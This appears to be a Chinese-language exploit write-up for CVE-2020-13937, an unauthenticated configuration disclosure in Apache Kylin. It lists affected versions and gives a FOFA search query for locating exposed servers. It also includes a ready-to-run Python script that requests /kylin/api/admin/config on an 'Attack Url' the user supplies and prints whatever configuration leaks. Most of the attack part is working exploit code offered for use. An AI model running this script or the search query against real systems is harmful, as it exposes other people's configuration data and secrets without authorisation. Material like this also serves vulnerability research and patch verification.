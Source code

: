 # Apache Kylin的未授权配置泄露 CVE-2020-13937

## 漏洞描述

Apache Kylin有一个restful api会在没有任何认证的情况下暴露配置信息。

### FOFA

> [!NOTE]
>
> app="APACHE-kylin"

## 漏洞影响

> [!NOTE]
>
> Apahche Kylin 2.x.x
>
> Apahche Kylin <= 3.1.0
>
> Apahche Kylin 4.0.0-alpha

## 漏洞复现

根据漏洞情报

![](Apache-Kylin-未授权配置泄露-CVE-2020-13937.assets/1627363459369026.jpg)

漏洞利用POC为  http://xxx.xxx.xxx.xxx/kylin/api/admin/config

![](Apache-Kylin-未授权配置泄露-CVE-2020-13937.assets/16273634598658502.jpg)

## 漏洞检测POC

```python
import requests

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Apache Kylin 2.x.x <= 3.1.0 Kylin 4.0.0-alpha            \033[0m')
    print('+  \033[36m使用格式: python3 cve-2019-13937.py                                 \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:9999                            \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/kylin/api/admin/config"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    try:
        response = requests.get(url=vuln_url, headers=headers, timeout=20)
        if "config" in response.text:
            print("\033[32m[o] 存在Apache Kylin的未授权配置泄露\n[o] 响应为:\n\033[0m",response.text)
        else:
            print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
    except:
        print("\033[31m[x] 目标Url漏洞利用失败\033[0m")

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](Apache-Kylin-未授权配置泄露-CVE-2020-13937.assets/1627363460507512.jpg)

##  Goby && POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> Apache_Kylin_Unauthorized_configuration_disclosure.json

![](Apache-Kylin-未授权配置泄露-CVE-2020-13937.assets/16273634608819551.jpg)

### 参考

[CVE-2020-13937|Apache Kylin的未授权配置泄露漏洞，腾讯安全全面支持检测](https://s.tencent.com/research/bsafe/1156.html)